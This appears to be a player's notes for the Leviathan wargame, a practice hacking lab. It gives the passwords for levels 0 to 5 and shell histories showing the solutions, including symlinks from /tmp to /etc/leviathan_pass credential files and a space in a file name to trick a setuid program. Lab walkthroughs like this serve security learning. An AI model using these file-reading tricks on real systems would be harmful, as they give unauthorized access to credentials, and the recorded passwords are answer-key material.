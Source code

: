 #LEVIATHAN

## level 0
3QJ3TgzHDq
## level 1
NsN1HwFoyN
## level 2
f0n8h2iWLP
    1  mktemp -d
    2  touch /tmp/tmp.UPkwjQdgjI/"test file.txt"
    3  ls -la /tmp/tmp.UPkwjQdgjI
    4  ltrace ./printfile /tmp/tmp.UPkwjQdgjI/"test file.txt"
    5  ln -s /etc/leviathan_pass/leviathan3 /tmp/tmp.UPkwjQdgjI/test
    6  ls -la /tmp/tmp.UPkwjQdgjI
    7  chmod 777 /tmp/tmp.UPkwjQdgjI
    8  ./prinfile /tmp/tmp.UPkwjQdgjI/"test file.txt"
    9  ./printfile /tmp/tmp.UPkwjQdgjI/"test file.txt"
    10  history
## level 3
WG1egElCvO
    1  pwd
    2  whoami
    3  ls -la
    4  ./level3
    5  ltrace level3
    6  ltrace ./level3
    7  ./level3
    8   leviathan3@gibson:~$ ./level3
        Enter the password> snlprintf
        [You've got shell]!
    9   $ whoami
        leviathan4
    10  $ cat /etc/leviathan_pass/leviathan4
        WG1egElCvO
    11  $ exit
    12  history

## level 4
0dyxT7F4QD
    1  pwd
    2  ls -la
    3  cd .trash
    4  ls
    6  ./bin
    7  echo 0011000001100100011110010111100001010100001101110100011000110100010100010100010000001010 | perl -lpe '$_=pack"B*",$_'
    8  history

level 5
szo7HDB88w
    1  pwd
    2  whoami
    3  ls -la
    4  ./leviathan5
    5  ltrace ./leviathan5
    6  touch /tmp/file.log
    7  ./leviathan5
    8    ln -s /etc/leviathan_pass/leviathan6 /tmp/file.log
    9  ./leviathan5
    10  history